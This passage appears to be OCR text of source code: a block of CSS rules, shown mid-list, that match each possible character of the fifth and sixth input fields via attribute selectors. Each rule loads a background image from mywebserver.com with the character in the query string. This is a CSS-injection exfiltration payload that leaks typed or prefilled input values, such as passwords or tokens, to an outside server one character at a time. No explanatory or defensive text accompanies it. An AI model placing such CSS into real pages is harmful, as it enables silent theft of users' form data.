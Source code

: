 ```
input[value=W]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=W"); }
input[value=X]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=X"); }
input[value=Y]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=Y"); }
input[value=Z]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=Z"); }
input[value=a]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=a"); }
input[value=b]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=b"); }
input[value=c]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=c"); }
input[value=d]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=d"); }
input[value=e]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=e"); }
input[value=f]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=f"); }
input[value=g]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=g"); }
input[value=h]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=h"); }
input[value=i]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=i"); }
input[value=j]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=j"); }
input[value=k]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=k"); }
input[value=l]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=l"); }
input[value=m]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=m"); }
input[value=n]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=n"); }
input[value=o]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=o"); }
input[value=p]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=p"); }
input[value=q]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=q"); }
input[value=r]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=r"); }
input[value=s]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=s"); }
input[value=t]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=t"); }
input[value=u]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=u"); }
input[value=v]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=v"); }
input[value=w]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=w"); }
input[value=x]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=x"); }
input[value=y]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=y"); }
input[value=z]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=z"); }
input[value=0]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=0"); }
input[value=1]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=1"); }
input[value=2]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=2"); }
input[value=3]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=3"); }
input[value=4]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=4"); }
input[value=5]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=5"); }
input[value=6]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=6"); }
input[value=7]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=7"); }
input[value=8]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=8"); }
input[value=9]:nth-of-type(5) { background-image: url("https://mywebserver.com/data?5=9"); }

input[value=A]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=A"); }
input[value=B]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=B"); }
input[value=C]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=C"); }
input[value=D]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=D"); }
input[value=E]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=E"); }
input[value=F]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=F"); }
input[value=G]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=G"); }
input[value=H]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=H"); }
input[value=I]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=I"); }
input[value=J]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=J"); }
input[value=K]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=K"); }
input[value=L]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=L"); }
input[value=M]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=M"); }
input[value=N]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=N"); }
input[value=O]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=O"); }
input[value=P]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=P"); }
input[value=Q]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=Q"); }
input[value=R]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=R"); }
input[value=S]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=S"); }
input[value=T]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=T"); }
input[value=U]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=U"); }
input[value=V]:nth-of-type(6) { background-image: url("https://mywebserver.com/data?6=V"); }
```